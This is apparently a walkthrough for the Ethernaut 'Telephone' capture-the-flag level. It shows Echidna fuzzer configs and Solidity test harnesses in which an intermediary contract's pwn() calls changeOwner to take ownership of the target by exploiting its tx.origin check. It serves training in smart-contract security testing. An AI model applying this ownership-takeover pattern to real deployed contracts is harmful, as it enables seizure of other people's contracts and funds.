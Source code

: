 # Telephone Walkthrough
This walkthrough requires interacting with the target via a different contract. This gives us two different ways in which we can run this test. The first way is to let our test contract call the attacker contract. The other way, which maybe more realistic, is to let the fuzzer call the attack contract. 

The objective is to take ownership of the target.

## Setup 1
Create the config.yaml:
```yaml
contractAddr: "0x4242"
```

This is not strictly necessary as the contract will be deployed to the default address of `0x00a329c0648769a73afac7f9381e08fb43dbea72`. But to make things easier, I just decided to set the contract address to something smaller.

## Test Setup 1

In this test, we will use two contracts and the test contract's constructor to take ownership of the target.
```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }

  function callPwn() public {
      ring.pwn();
  }

    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```

## Setup 2
Create the config.yaml:
```yaml
contractAddr: "0x4242"
multi-abi: true
```

This is not strictly necessary as the contract will be deployed to the default address of `0x00a329c0648769a73afac7f9381e08fb43dbea72`. But to make things easier, I just decided to set the contract address to something smaller.

The second line `multi-abi: true` is needed to allow the echidna to call into any contract with a known ABI.

## Test Setup 2
In this setup, the fuzzer will call public functions from both the Test contract and the RingRing contract.

```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }


    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```
